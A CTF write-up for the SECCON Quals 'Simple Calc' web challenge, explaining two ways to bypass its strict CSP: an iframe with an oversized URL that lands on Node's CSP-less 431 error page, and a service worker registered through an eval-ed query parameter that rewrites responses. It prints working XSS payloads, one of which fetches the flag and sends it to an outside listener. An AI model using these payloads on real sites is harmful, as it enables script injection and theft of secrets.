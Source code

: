 ```yaml
---
title: "[Simply Calc] - SECCON Quals"
tags:
  - CTF
  - Write-up
  - csp-bypass
  - client-side
  - service-worker
categories:
  - CTF
  - Write Up
---
```

![[Screenshot 2024-01-19 at 23.06.45.png]]
# Prologue
SECCON CTF is International yearly competition. The finals will take into Japan. 

![[2023-seccon-quals-simple-calc.tar.gz]]
# Write Up
## TL;DR Solution
### Un-intended

The un-intended solution is the player create an iframe with very long url and cause `431` error. The default of that error page in nodejs has a CSP-less, causing player able to bypass the intended CSP. 
### Intended

The intended solution is more complicated, the player need to create file-less service-worker by making use the `eval` function in `/js/index.js` and need to assign a dummy function or variable to prevent error. After that, player will need make use of [FetchEvent](https://developer.mozilla.org/en-US/docs/Web/API/FetchEvent) to be able intercept and modify the response without CSP needed.

## Detailed Explanation

### Un-intended

We were given the full source code for this challenge.
![[Screenshot 2024-01-19 at 23.23.33.png]]

As we can see in the `./challenge/src/static/js/index.js`, player able to control the query string of `expr`, and immediately `eval`-ed by the app. 
```js
// ./challenge/src/static/js/index.js
const params = new URLSearchParams(location.search);
const result = eval(params.get('expr'));
document.getElementById('result').innerText = result.toString();
```

By using `/?expr=alert(document.origin)` and we got a free-xss
![[Screenshot 2024-01-19 at 23.29.30.png]]

But the problem arise when we attempt to access the `/flag`.
```js
// ./challenge/src/index.js
// 8< -- Snip -- >8
app.get('/flag', (req, res) => {
  if (req.cookies.token !== ADMIN_TOKEN || !req.get('X-FLAG')) {
    return res.send('No flag for you!');
  }
  return res.send(FLAG);
});
// 8< -- Snip -- >8
```

As we can see, the CSP is very strict. The challenge CSP has `default-src` and the value is only at `http://localhost:3000/js/index.js`. So, every resources request we make outside that csp will be restricted.
![[Screenshot 2024-01-19 at 23.43.34.png]]

Luckily, In nodejs, the default page for error `431` has CSP-less.
![[Screenshot 2024-01-19 at 23.19.18.png]]

The idea is, we make an iframe with very-very long url to trigger the `413` error. And after that, we will execute JS inside the iframe context.

```js
_=document.createElement('iframe');
_.src=`http://localhost:3000/js/index.js?${"A".repeat(99999)}`;
document.body.appendChild(_);
// give a time to DOM to finish the iframe load
setTimeout(function(){
    _.contentWindow.fetch('/flag', {mode:"same-origin",headers: {"X-FLAG":"nice"}}).then((r)=>r.text()).then((r)=>{location=`http://host.docker.internal:1234/?${r}`});
}, 1000);
```

Send to the bot and we will able to get the flag
![[Screenshot 2024-01-20 at 00.09.21.png]]

![[Screenshot 2024-01-20 at 00.10.07.png]]
### Intended

Basically, `navigator.serviceWorker.register` works is just the same as fetch-ing the resource and then eval it without DOM. Therefore, player need to assign a dummy function or variable to prevent error. To proofing it, we can use `console.log` to check it.

```js
navigator.serviceWorker.register("/js/index.js?expr=console.log(1);1", {"scope":"./js/"}).then(
  (registration) => {
    console.log("Service worker registration succeeded:", registration);
  },
  (error) => {
    console.error(`Service worker registration failed: ${error}`);
  },
);
```


![[Screenshot 2024-01-20 at 15.45.41.png]]

As we can see, the `console.log` is fired, but it fail to register the service-worker. So, to prevent the error, we can add dummy DOM to prevent `reject` event. 

*de-minify* 
```js
document={};
document.getElementById=function(e){
	console.log(e);
	return {innerText:1}
};
```
service-worker
```js
navigator.serviceWorker.register("/js/index.js?expr=document={};document.getElementById=function(e){console.log(e);return {innerText:1}};1", {"scope":"./js/"}).then(
  (registration) => {
    console.log("Service worker registration succeeded:", registration);
  },
  (error) => {
    console.error(`Service worker registration failed: ${error}`);
  },
);
```

The service-worker is successfully registered.
![[Screenshot 2024-01-20 at 15.50.16.png]]

After that, we can make use of [Response](https://developer.mozilla.org/en-US/docs/Web/API/Response) and [respondWith](https://developer.mozilla.org/en-US/docs/Web/API/FetchEvent/respondWith) to manipulate the response in service-worker scope.

*de-minify*
```js
document={};
document.getElementById=function(e){
	console.log(e);
	return {innerText:1}
};
self.addEventListener('fetch',function(event){
	event.respondWith(
		new Response('<script>eval(location.hash.substr(1))</script>',{
			headers:{
				'Content-Type':'text/html'
			}
		})
	)
});1
```

service-worker
```js
navigator.serviceWorker.register("/js/index.js?expr=document={};document.getElementById=function(e){console.log(e);return {innerText:1}};self.addEventListener('fetch',function(event){event.respondWith(new Response('<script>eval(decodeURIComponent(location.hash.substr(1)))</script>',{headers:{'Content-Type':'text/html'}}))});1", {"scope":"./js/"}).then(
  (registration) => {
    console.log("Service worker registration succeeded:", registration);
  },
  (error) => {
    console.error(`Service worker registration failed: ${error}`);
  },
);1
```

visiting the scope of service worker (`/js`), and we were able to achieve have XSS without CSP.

But, those script still has a problem. Since the [FetchEvent](https://developer.mozilla.org/en-US/docs/Web/API/FetchEvent) will intercept all request, when we attempt to request `/flag`, it will be replaced with the XSS payload. Therefore, we need to whitelist the URL `/flag`.

*de-minify*
```js
document={};
document.getElementById=function(e){
	return {innerText:1}
};
self.addEventListener('fetch',function(event){
	if(new URL(event.request.url).pathname.includes('/flag')){return;};
	event.respondWith(
		new Response('<script>eval(location.hash.substr(1))</script>',{
			headers:{
				'Content-Type':'text/html'
			}
		})
	)
});1
```

service-worker, with a little bit cleaning up. The `setTimeout` function is used to let the service-worker installed.
```js
navigator.serviceWorker.register("/js/index.js?expr=document={};document.getElementById=function(e){console.log(e);return {innerText:1}};self.addEventListener('fetch',function(event){if(new URL(event.request.url).pathname.includes('/flag')){return;};event.respondWith(new Response('<script>eval(decodeURIComponent(location.hash.substr(1)))</script>',{headers:{'Content-Type':'text/html'}}))});1", {"scope":"./js/"});setTimeout(()=>{location="/js/#fetch('/flag', {headers:{'X-FLAG':'nyx'}}).then((r)=>r.text()).then((r)=>{alert(r)})"}, 1000)
```

We successfully whitelisting our request.
![[Screenshot 2024-01-21 at 02.26.36.png]]

So, all we need to do next is just modify the alert into send the response into our webhook.
![[Screenshot 2024-01-21 at 02.29.47.png]]
![[Screenshot 2024-01-21 at 02.30.06.png]]

# Epilogue

As usual, SECCON always has a very good challenge. And unfortunately, I didn't managed to solve this, but i learn something new things with service-worker. 

— nyxsorcerer